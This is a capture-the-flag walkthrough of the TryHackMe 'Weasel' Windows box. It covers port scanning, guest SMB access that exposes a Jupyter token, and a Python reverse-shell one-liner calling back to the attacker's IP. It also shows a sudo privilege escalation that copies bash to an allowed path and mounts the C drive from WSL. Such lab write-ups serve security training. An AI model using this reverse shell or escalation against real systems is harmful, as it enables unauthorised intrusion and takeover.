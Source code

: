 # THM - Weasel

#### Ip: 10.10.220.178
#### Name: Weasel
#### Rating: Medium

----------------------------------------------------------------------

weasel.png

### Enumeration

As always, lets kick things off by scanning all TCP ports with Nmap. Here I will also use the `--min-rate 10000` flag to speed the scan up.

```text
┌──(ryan㉿kali)-[~/THM/Weasel]
└─$ sudo nmap -p-  --min-rate 10000 10.10.220.178
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-07 14:41 CDT
Warning: 10.10.220.178 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.220.178
Host is up (0.13s latency).
Not shown: 63643 closed tcp ports (reset), 1877 filtered tcp ports (no-response)
PORT      STATE SERVICE
22/tcp    open  ssh
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
8888/tcp  open  sun-answerbook
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
49671/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 22.05 seconds
```
Lets enumerate open ports a bit further and use the `-sC` and `-sV` flags to use default Nmap scripts and to enumerate versions. I'll also use the `-T4` flags to increase the threads and speed things up.

```text
┌──(ryan㉿kali)-[~/THM/Weasel]
└─$ sudo nmap -sC -sV -T4 10.10.220.178 -p 22,135,139,445,3389,5985,8888,47001
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-07 14:42 CDT
Nmap scan report for 10.10.220.178
Host is up (0.12s latency).

PORT      STATE SERVICE       VERSION
22/tcp    open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 2b17d88a1e8c99bc5bf53d0a5eff5e5e (RSA)
|   256 3cc0fdb5c157ab75ac8110aee298120d (ECDSA)
|_  256 e9f030bee6cfeffe2d1421a0ac457b70 (ED25519)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2023-07-07T19:42:43+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=DEV-DATASCI-JUP
| Not valid before: 2023-03-12T11:46:50
|_Not valid after:  2023-09-11T11:46:50
| rdp-ntlm-info: 
|   Target_Name: DEV-DATASCI-JUP
|   NetBIOS_Domain_Name: DEV-DATASCI-JUP
|   NetBIOS_Computer_Name: DEV-DATASCI-JUP
|   DNS_Domain_Name: DEV-DATASCI-JUP
|   DNS_Computer_Name: DEV-DATASCI-JUP
|   Product_Version: 10.0.17763
|_  System_Time: 2023-07-07T19:42:34+00:00
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
8888/tcp  open  http          Tornado httpd 6.0.3
| http-title: Jupyter Notebook
|_Requested resource was /login?next=%2Ftree%3F
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
| smb2-time: 
|   date: 2023-07-07T19:42:36
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.89 seconds
```

Ok cool, looks like we have a Windows machine here. It's a bit interesting to see SSH open on a Windows box, but definitely not unheard of. It's interesting to see Jupyter Notebook running on port 8888. Jupyter is a tool frequently used by folks in data analytics and data science type roles. 

Taking a quick peak at the page, it looks like we may need to find a token somewhere, or maybe we can create an account later on. 

jupyter.png

Either way lets keep enumerating the machine to see what else we can find.

Checking out the SMB shares, I see we can access the `datasci-team` and the `IPC$` shares. Cool. Knowing that data science teams frequently use Jupyter Notebooks, lets start there. 

cme.png

Logging into the share using smbclient, we find several interesting files. I'll pull all of them back to my machine locally for inspection.

```text
┌──(ryan㉿kali)-[~/THM/Weasel]
└─$ smbclient -U 'guest%' //10.10.220.178/datasci-team
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Jul  7 14:48:08 2023
  ..                                  D        0  Fri Jul  7 14:48:08 2023
  .ipynb_checkpoints                 DA        0  Thu Aug 25 10:26:47 2022
  Long-Tailed_Weasel_Range_-_CWHR_M157_[ds1940].csv      A      146  Thu Aug 25 10:26:46 2022
  misc                               DA        0  Thu Aug 25 10:26:47 2022
  MPE63-3_745-757.pdf                 A   414804  Thu Aug 25 10:26:46 2022
  papers                             DA        0  Thu Aug 25 10:26:47 2022
  pics                               DA        0  Thu Aug 25 10:26:47 2022
  requirements.txt                    A       12  Thu Aug 25 10:26:46 2022
  weasel.ipynb                        A     4308  Thu Aug 25 10:26:46 2022
  weasel.txt                          A       51  Thu Aug 25 10:26:46 2022

		15587583 blocks of size 4096. 8921463 blocks available

```

Several of the discovered files were random articles on weasels.

random.png

But in the `/misc` directory I found jupyter-token.txt, which is especially interesting.

```text
┌──(ryan㉿kali)-[~/THM/Weasel]
└─$ cat jupyter-token.txt
067470c5ddsadc54153ghfjd817d15b5d5f5341e56b0dsad78a
```

Using this token allows me to login on port 8888

login.png

Once logged in we can click on New > Terminal and we will be dropped into a web terminal. 

web_term.png

From there we can head over to https://www.revshells.com/ and grab a Python reverse shell oneliner.

Back in the terminal after setting up a NetCat listener I run:

```text
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.61.45",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
And catch a shell back in my listener:

```text
┌──(ryan㉿kali)-[~/THM/Weasel]
└─$ nc -lvnp 443 
listening on [any] 443 ...
connect to [10.6.61.45] from (UNKNOWN) [10.10.220.178] 51133
$ whoami
whoami
dev-datasci
$ hostname
hostname
DEV-DATASCI-JUP

```

Interestingly, this is a Windows machine, but I appear to be in a Linux environment. This must be Windows Subsystem for Linux (WSL), something I haven't played much with.

Not seeing any flags in the home directory I ran `sudo -l` to see what we can run with elevated permissions.

sudo.png

Interestingly, this file doesn't seem to exist.

```text
(base) dev-datasci@DEV-DATASCI-JUP:/tmp$ ls -la /home/dev-datasci/.local/bin/jupyter
ls: cannot access '/home/dev-datasci/.local/bin/jupyter': No such file or directory
```

We can copy `/bin/bash` to a file with this name and then execute it as root:

```text
(base) dev-datasci@DEV-DATASCI-JUP:/tmp$ cp /bin/bash /home/dev-datasci/.local/bin/jupyter
(base) dev-datasci@DEV-DATASCI-JUP:/tmp$ sudo /home/dev-datasci/.local/bin/jupyter
root@DEV-DATASCI-JUP:/tmp# whoami
root
```
Even though I am the root user, I still am having a heard time finding the user.txt or the root.txt flags. 

Doing some searching around online I find that the system is usually hosted in the `/mnt` directory, and navigating there I see a `c` diectory, but it is empty, or not yet mounted.

I can mount the system using `mount -t drvfs 'c:' /mnt/c`

From there I can begin interacting with the Windows system.

```text
root@DEV-DATASCI-JUP:/mnt/c# dir
$Recycle.Bin		  PerfLogs	  Program\ Files\ (x86)  Recovery		      Users    datasci-team
Documents\ and\ Settings  Program\ Files  ProgramData		 System\ Volume\ Information  Windows  pagefile.sys
``` 

I can now grab the user.txt flag from dev-datasci-lowpriv's Desktop

user_flag.png

As well  as the root.txt from the Administrator's Desktop

root_flag.png

Thanks for following along!

-Ryan

--------------------------------------------------------------------------------------